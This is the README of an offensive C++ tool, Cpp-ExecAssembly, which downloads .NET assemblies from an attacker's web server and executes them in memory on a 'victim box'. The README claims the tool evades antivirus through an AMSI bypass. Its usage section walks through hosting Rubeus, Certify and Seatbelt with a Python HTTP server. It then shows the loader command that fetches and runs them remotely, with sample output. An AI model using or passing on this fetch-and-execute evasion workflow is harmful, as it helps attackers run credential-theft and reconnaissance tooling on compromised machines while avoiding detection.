

## Cpp-ExecAssembly

C++ tool load and execute assemblies in-memory, without triggering AV/EDR alerts.



## Usage

Compile in release mode

On your attack box, host your assemblies on a web server:
```bash
$ ls -la /tmp/Assemblies
total 1244
drwxrwx--- 2 root root   4096 Mar  7 13:46 .
drwxrwxrwt 1 root root   4096 Mar  7 13:27 ..
-rw-r----- 1 root root 178688 Mar  7 13:46 Certify.exe
-rw-r----- 1 root root 466432 Mar  7 13:27 Rubeus.exe
-rw-r----- 1 root root 608256 Mar  7 13:27 Seatbelt.exe
-rw-r----- 1 root root   4608 Mar  7 13:27 TestAssembly.exe

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

On the victim box, run the loader, specifying the following arguments:
- argv[1] : attack box's HTTP host
- argv[2] : HTTP path to the assembly
- argv[2+X] : Assembly's argument 1
- argv[2+X+1] : Assembly's argument 2
- and so on ...

For instance :
```powershell
PS> .\ExecAssembly.exe 192.168.57.1 /Assemblies/Seatbelt.exe       AntiVirus
           ^                ^                  ^                       ^
      /          \     /          \ /                      \ /                  \
         ProgName       HTTP Host        Assembly path         Seatbelt's arg1

[+] InitMetaHost success
[+] InitRuntime success
[+] Runtime is loadable
[+] InitInterface success
[+] Runtime started
[+] Opened Default Domain
[+] Interface opened on Default Domain
[+] InitAssemblyMemory success
[+] Assembly loaded
[+] Assembly's entry point parsed
[+] Invocation success


                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.2.2         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,


====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe

```
## Community

Opening issues or pull requests very much welcome.
Suggestions welcome as well.

## Notes

This seems to bypass all AVs.
However, this is not true for EDRs. Behevioural analysis will trigger alerts on good EDRs depending on what you are doing, even directly upon loading, as this program does not implement any evasion technique apart from AMSI bypass.

